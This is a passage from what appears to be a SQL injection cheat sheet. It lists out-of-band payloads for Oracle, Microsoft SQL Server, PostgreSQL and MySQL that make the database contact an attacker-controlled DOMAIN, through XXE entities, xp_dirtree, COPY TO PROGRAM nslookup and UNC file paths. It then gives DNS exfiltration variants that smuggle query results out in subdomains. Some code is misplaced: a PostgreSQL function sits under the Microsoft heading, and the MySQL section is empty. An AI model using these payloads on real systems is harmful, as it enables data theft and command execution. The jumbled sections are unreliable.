 ```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://DOMAIN/"> %remote;]>'),'/l') from dual
```

```sql
select UTL_INADDR.get_host_address('DOMAIN')
```

- Microsoft

```sql
exec master..xp_dirtree '//DOMAIN/a' 
```

- PostgreSQL

```sql
copy (select '') to program 'nslookup DOMAIN'
```

- MySQL

```sql
load_file('\\\\DOMAIN\\a')
select ... into OUTFILE '\\\\DOMAIN\a'
```

### DNS lookup with data exfiltration

- Oracle

```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select 'test')||'.DOMAIN/"> %remote;]>'),'/l') from dual
```

- Microsoft

```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.DOMAIN/a"')
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
```

- PostgreSQL

```sql
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.DOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

- MySQL
